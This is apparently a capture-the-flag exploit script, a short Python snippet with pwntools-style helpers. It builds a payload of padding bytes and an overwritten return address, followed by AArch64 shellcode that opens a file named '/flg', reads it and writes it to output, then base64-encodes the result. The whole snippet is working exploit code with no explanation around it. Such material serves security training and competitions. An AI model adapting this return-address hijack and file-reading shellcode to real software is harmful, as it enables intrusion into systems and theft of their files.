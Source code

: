 ```
bs += b'\x02'
bs += b'CC'
bs += b'\x00'
bs += p32(0x10)
bs += b'A'*(0x18)
bs += p64(0xfc46)#ret addr

shellcode = '''ldr x0,=0x676c662f // /flg
mov x1, 0x0        // open mode
stp x0, x1, [sp]
mov x0, sp
mov x5, 0x340      // SYS_open
blr  x5

mov x1, 0xf940     // buf
mov x2, 0x36       // size
mov x5, 0x34c      // SYS_read
blr  x5

mov x0, 0xf940     // buf
mov x5, 0x310      // SYS_write
blr  x5'''

payload = asm(shellcode)
bs += payload + b'\x00'
bs += b'\x00'

#print(hexdump(bs))
print(b64e(bs)+' ')
```
